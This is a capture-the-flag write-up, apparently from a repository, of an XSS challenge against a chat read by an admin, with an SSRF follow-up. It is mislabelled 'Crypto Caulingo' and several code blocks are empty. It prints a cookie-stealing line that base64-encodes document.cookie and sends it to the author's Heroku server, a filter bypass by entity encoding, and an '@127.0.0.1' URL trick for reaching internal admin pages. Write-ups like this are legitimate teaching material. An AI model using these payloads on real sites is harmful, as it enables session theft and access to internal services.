








# Crypto Caulingo

## Challenge Description



Upon clicking the provided link we see this page:



and looking at the link for the challenge it seems pretty clear what we need to do, there is an admin reading the same chat we see, and we must execute an XSS attack in order to get the flag, most likely from their cookies, as that is how the previous XSS challenges were implemented.

So, testing the chat function we can see that we can send messages normally, but trying to include a `<script>` tag will change our message to "HACKER ALERT!".



So it seems like there is some basic anti-xss filtering in place. So the next thing to do was simply send messages and try and determine where the bounds are with what is filtered and what is not. After trying a few things it was obvious it's actually fairly leniant, img tags work fine, but it won't allow the `onload` property. `onerror` works just fine but it won't allow messages with the words "script" or "function" in them.

What it does allow just fine however, are messages encoded as HTML Entities, regardless of their contents. As a result, we can just write an arbitrary XSS payload, encode the whole thing as HTML Entities set it to the onerror property, and send away. To test this we can use:

```html

```
which, when encoded, looks like:
```html

```
and we see our alert pop up straight away!


So now we just need a payload to grab the cookies from the targets browser and send them back to us. I have a heroku application set up for circumstances like this, which runs a simple http server which logs everything it receives. As a result, I used the following script:

```javascript
new Image().src="https://<myapp>.herokuapp.com?pagesrc="+btoa(document.cookie)
```

```html

```


which just encodes the page cookies as base 64 and makes a request to my server as an image, the request fails, but we can see the cookies in our logs.

Decode the base 64 string and we get:

```
flag=CTF{3mbr4c3_the_c00k1e_w0r1d_ord3r}; auth=TUtb9PPA9cYkfcVQWYzxy4XbtyL3VNKz
```

Which gets us our flag

# Additional Flag

There does seem to be more to this challenge, and I ended up getting a bit of a hint or I don't think I would have gotten this one all the way, so the auth cookie that we get along with the first flag actually seems to have an impact on the page. When we set this cookie in our own browser we can now see an `admin` link in the top right of the page.



Which gives us access to an admin control panel with a few new pages.



Unfortunately for us, both the Users and Livestreams pages are blank. However when we try to access the camera controls page, we get a 403 response with the error message:

```
Requests only accepted from 127.0.0.1
```

Which makes things a little trickier. However, if we look back at the original page, we can see the livestream is loaded as follows:

```html
<video loop="" autoplay="" muted="" src="/watch?livestream=http://cwo-xss.web.ctfcompetition.com/livestream/garden-livestream.webm">
```

The `src` attribute there looks an awful lot like it might be vulnerable to Remote (or in this case Local) File Inclusion. So by going to the link we can try something like:
```
https://cwo-xss.web.ctfcompetition.com/watch?livestream=http://127.0.0.1/admin/controls
```

However when we try that we see the following error:



However this actually turns out to be easy to resolve, as the parsing to check this isn't done very well, as a result we can set the username in our link to `cwo-xss.web.ctfcompetition.com` and we can fool this check right away.

Final link:

```
https://cwo-xss.web.ctfcompetition.com/watch?livestream=http://cwo-xss.web.ctfcompetition.com@127.0.0.1/admin/controls
```

And there we have it, the second flag is ours.


